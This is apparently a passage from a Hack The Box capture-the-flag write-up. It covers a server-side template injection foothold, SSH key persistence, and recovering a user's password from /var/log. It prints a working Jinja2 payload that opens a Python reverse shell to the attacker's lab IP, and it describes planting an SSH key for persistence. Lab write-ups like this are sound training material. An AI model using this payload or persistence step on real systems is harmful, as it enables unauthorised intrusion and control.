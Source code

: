 Bingo!

## Footprint

Armed with that insight, we can exploit the SSTI vulnerability to get remote code execution on the machine. PayloadsAllTheThings have the perfect [exploit](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset).

{% raw %}
```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.21\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
{% endraw %}

{% include image.html image_alt="252b3173.png" image_src="/d49904f4-306b-42cc-8815-df10bbc118d1/252b3173.png" %}

Now, it's best to inject a SSH public key we control into `/home/web/.ssh/authorized_keys` to maintain persistence.

{% include image.html image_alt="45571823.png" image_src="/d49904f4-306b-42cc-8815-df10bbc118d1/45571823.png" %}

### Getting `user.txt`

During enumeration of `web`'s account, I notice that the user `shaun` is not allowed to SSH in, so his password must be lying around somewhere.

{% include image.html image_alt="e35f0ae3.png" image_src="/d49904f4-306b-42cc-8815-df10bbc118d1/e35f0ae3.png" %}

On top of that, `web` is in the `adm` group. That surely must mean something.

{% include image.html image_alt="3fc704f2.png" image_src="/d49904f4-306b-42cc-8815-df10bbc118d1/3fc704f2.png" %}

Let's look for traces of the string `password` in `/var/log` with the very capable `find`.

{% include image.html image_alt="e3500e11.png" image_src="/d49904f4-306b-42cc-8815-df10bbc118d1/e3500e11.png" %}

Could that be `shaun`'s password? There's only one way to find out.

{% include image.html image_alt="3e5396a0.png" image_src="/d49904f4-306b-42cc-8815-df10bbc118d1/3e5396a0.png" %}

Awesome. The file `user.txt` is at `shaun`'s home directory.

{% include image.html image_alt="46b32e64.png" image_src="/d49904f4-306b-42cc-8815-df10bbc118d1/46b32e64.png" %}

## Privilege Escalation


[1]: https://www.hackthebox.eu/home/machines/profile/278
[2]: https://www.hackthebox.eu/home/users/profile/94858
[3]: https://www.hackthebox.eu/